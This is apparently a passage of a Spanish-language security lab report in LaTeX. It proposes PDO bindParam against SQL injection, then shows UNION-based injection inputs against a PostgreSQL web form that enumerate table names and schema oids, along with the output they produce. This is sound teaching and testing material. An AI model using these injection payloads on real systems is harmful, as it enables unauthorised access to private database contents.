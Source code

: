 \documentclass{article}
\begin{document}
Se propone para evitar el ataque de tipo \textit{SQLInjection} utilizar las función de PDO \texttt{bindParam} que ejecuta una validación (escapando carácteres especiales de SQL) y evita el poder realizar esto. Se encuentra la solución propuesta en el fichero \texttt{xLoginInjectionRepaired.php}
\subsection{Ejercicio H: {\small Acceso indebido a información}}
\subsubsection{Hallar el nombre de las tablas}
Basta con introducir el siguiente texto:
\begin{lstlisting}
a' UNION SELECT relname from pg_class where '1'='1
\end{lstlisting}
Y se recibe una salida similar a esta:
\begin{lstlisting}
    pg_ts_parser_oid_index
    pg_conversion_oid_index
    pg_stat_user_indexes
    pg_ts_dict
    pg_amop
    pg_toast_1255_index
    pg_tablespace
    [ ... ]
    pg_language
    usage_privileges
    pg_toast_12214
    pg_transform
    pg_toast_2609
    pg_cursors
    transforms
    pg_class
    pg_statio_all_tables
    pg_ts_template
    sql_features
    sql_implementation_info
    pg_user_mapping_user_server_index
    pg_collation
    clientbets
    pg_tables
    pg_stat_archiver
    pg_extension_oid_index
    pg_largeobject
\end{lstlisting}
{\footnotesize Salida completa en \texttt{tablas.html}}

Realmente de la consulta solo se ha utilizado que la variable sustituida está al final, luego podemos unir el resultado con otra consulta, en este caso sobre las tablas de administración

Para centrarse en las tablas de interés es necesario encontrar el oid del \textit{schema public}

Esto se logra fácilmente con la siguiente entrada en formulario:
\begin{lstlisting}
a' union select oid || ' ' || nspname from pg_namespace where '1'='1

\end{lstlisting}
Retornando algo similar la página web:
\begin{lstlisting}
    99 pg_toast
    11817 pg_toast_temp_1
    2200 public
    11 pg_catalog
    12086 information_schema
    11816 pg_temp_1
\end{lstlisting}
{\footnotesize Salida completa en \texttt{oid\_public.html}}
\end{document}
